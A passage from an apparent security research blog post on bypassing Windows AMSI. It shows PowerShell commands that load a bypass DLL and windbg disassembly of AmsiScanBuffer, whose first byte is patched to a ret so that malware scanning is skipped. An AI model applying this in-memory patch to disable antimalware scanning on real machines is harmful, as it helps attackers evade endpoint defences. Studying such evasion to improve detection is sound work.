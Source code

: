 Each of the previous bypasses were compiled into DLL's and tested on a fully updated Windows 10 vm. Each DLL was placed on the Desktop (without triggering Defender) and then ran with the following Powershell commands:

```powershell
[System.Reflection.Assembly]::LoadFile("C:\\Users\\usr_gary\\Desktop\\AmsiFun.dll")
[Amsi]::Bypass()
```

By running our output, we can observe the difference between the output of AMSI before and after the patch is applied:

![AMSI patch, before and after]({{ site.url }}/assets/images/amsi_bypass/3_bypassed_result.png)

We can see what's happening within memory with windbg. We want to open powershell and load the DLL. Before running the Bypass, we attach to the process and disassemble the "AmsiScanBuffer" function:

```
0:012> u amsi!amsiScanBuffer l10
amsi!AmsiScanBuffer:
00007ff8`cc652540 4c8bdc          mov     r11,rsp
00007ff8`cc652543 49895b08        mov     qword ptr [r11+8],rbx
00007ff8`cc652547 49896b10        mov     qword ptr [r11+10h],rbp
00007ff8`cc65254b 49897318        mov     qword ptr [r11+18h],rsi
00007ff8`cc65254f 57              push    rdi
00007ff8`cc652550 4156            push    r14
00007ff8`cc652552 4157            push    r15
00007ff8`cc652554 4883ec70        sub     rsp,70h
00007ff8`cc652558 4d8bf9          mov     r15,r9
00007ff8`cc65255b 418bf8          mov     edi,r8d
00007ff8`cc65255e 488bf2          mov     rsi,rdx
00007ff8`cc652561 488bd9          mov     rbx,rcx
00007ff8`cc652564 488b0dadda0000  mov     rcx,qword ptr [amsi!WPP_GLOBAL_Control (00007ff8`cc660018)]
00007ff8`cc65256b 488d05a6da0000  lea     rax,[amsi!WPP_GLOBAL_Control (00007ff8`cc660018)]
00007ff8`cc652572 488bac24b8000000 mov     rbp,qword ptr [rsp+0B8h]
00007ff8`cc65257a 4c8bb424b0000000 mov     r14,qword ptr [rsp+0B0h]
```

As we can see, the function does a number of things, but based on our bypass - we don't really care. We just need to stop it doing it. So now let's continue the process (windbg would have paused it when attaching).

Next we run the bypass with "[Amsi]::Bypass()" and break the process again in windbg. Now the bypass has been run and the patch applied, we can see that the first byte has been turned into a ret instruction. Resulting in us breaking out of the function immediately everytime it is called:

```
0:012> u amsi!amsiScanBuffer l10
amsi!AmsiScanBuffer:
00007ff8`cc652540 c3              ret
00007ff8`cc652541 8bdc            mov     ebx,esp
00007ff8`cc652543 49895b08        mov     qword ptr [r11+8],rbx
00007ff8`cc652547 49896b10        mov     qword ptr [r11+10h],rbp
00007ff8`cc65254b 49897318        mov     qword ptr [r11+18h],rsi
00007ff8`cc65254f 57              push    rdi
00007ff8`cc652550 4156            push    r14
00007ff8`cc652552 4157            push    r15
00007ff8`cc652554 4883ec70        sub     rsp,70h
00007ff8`cc652558 4d8bf9          mov     r15,r9
00007ff8`cc65255b 418bf8          mov     edi,r8d
00007ff8`cc65255e 488bf2          mov     rsi,rdx
00007ff8`cc652561 488bd9          mov     rbx,rcx
00007ff8`cc652564 488b0dadda0000  mov     rcx,qword ptr [amsi!WPP_GLOBAL_Control (00007ff8`cc660018)]
00007ff8`cc65256b 488d05a6da0000  lea     rax,[amsi!WPP_GLOBAL_Control (00007ff8`cc660018)]
00007ff8`cc652572 488bac24b8000000 mov     rbp,qword ptr [rsp+0B8h]
```